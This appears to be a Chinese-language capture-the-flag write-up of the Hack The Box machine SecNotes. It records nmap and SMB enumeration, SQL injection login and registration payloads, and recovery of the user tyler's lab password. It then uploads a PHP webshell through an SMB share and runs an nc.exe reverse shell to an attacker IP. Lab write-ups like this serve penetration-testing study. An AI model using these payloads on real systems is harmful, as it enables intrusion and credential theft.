

# SecNotes

nmap -p- --min-rate=1000 -sC -sV 10.129.196.86 

80 445 8808，HTTP SMB(Microsoft-DS) Reserved

80port是個筆記的頁面，可以自己創個user做登入，暫時沒發現有用的內容

用feroxbuster 也沒有爆到其他頁面。

455 有看到開的是smb，嘗試用-N登入是沒辦法，查了一下版本3.1.1對應到的主機板本是1903及1909。

不過這台主機版本是 **17134 (1803)**，不**在** SMBGhost 的影響範圍內。這代表這台機器對 SMBGhost 是免疫的。

接下來先列舉再用暴力破解看看。

enum4linux -a <目標IP> 

crackmapexec smb <目標IP> -u guest -p pass.txt

雖然密碼是失敗了，但SMBv1預設本該是關的，現在是開的，高機率是MS17-010 EnternalBlue。

測試指令

nmap -p 445 --script smb-vuln-ms17-010 10.129.196.86

還有singing:false代表這個smb不強制要求smb簽章。易受到SMB Relay(中繼)攻擊。

這是smb目前能拿到的資訊。

回登入頁面，現在想到應該可以用注入的方式試試看。

admin'-- - 、admin' #、admin'/*、' or 1=1 - -、" or 1=1 - -、admin' or '1'='1' - -

admin'--+同上

不指定admin

passwd:隨便

以上都沒有報錯。

問了G說可以在註冊頁面把admin’ - -當成username來註冊，密碼隨意。

登入後報了500 - internal server error.

用admin' or '1'='1註冊看看能不能繞過500拿到密碼。

成功繞過了。tyler :92g!mA8BGjOirkL%OG*&

可以用crackmapexec或smb驗證看看，是這個user和這個密碼沒錯。

crackmapexec smb <目標IP> -u guest -p pass.txt

列出有哪些共享資料夾。

smbclient -L 10.129.196.86 -U 'tyler’

有個new-site的資料夾，連進去看發現裡面有iisstart.htm跟iisstart.png兩個檔案。

smbclient [//10.129.196.86/new-site](https://10.129.196.86/new-site) -U 'SECNOTES\tyler'

問了GPT 它說new-site通常代表的是網站專案目錄或是web root，在裡面又發現iisstart.htm跟iisstart.png，基本上可以確定這是iis的預設網站根目錄。

iisstart.htm存在於new-site這個共享資料夾下，可以在kali建個簡易的php webshell，再到smb裡去put cmd.php。

可以用8808來驗證是不是成功拿到Initial Access。

http://{target_ip}:8808/cmd.php?cmd=whoami

這樣就是成功了。

拿到RCE後要把它變成互動式的shell。

put /usr/share/windows-resources/binaries/nc.exe nc.exe

[http://10.129.189.62:8808/cmd.php?cmd](http://10.129.189.62:8808/cmd.php?cmd)=nc.exe 10.10.14.9 5555 -e cmd.exe

名詞解釋:

smb relay:這是一種「中間人攻擊 (MITM)」。當網路中的一個使用者（特別是管理員）試圖存取攻擊者的機器（或攻擊者偽裝的服務）時，攻擊者並不直接破解其密碼，而是將接收到的 NTLM 身分驗證憑證即時轉發（Relay）到另一台目標機器。如果該憑證具備權限，攻擊者就能直接在目標機器上執行指令。

[SecNotes 提權](https://www.notion.so/SecNotes-35d6b41a37848043b276f6866fd1cc11?pvs=21)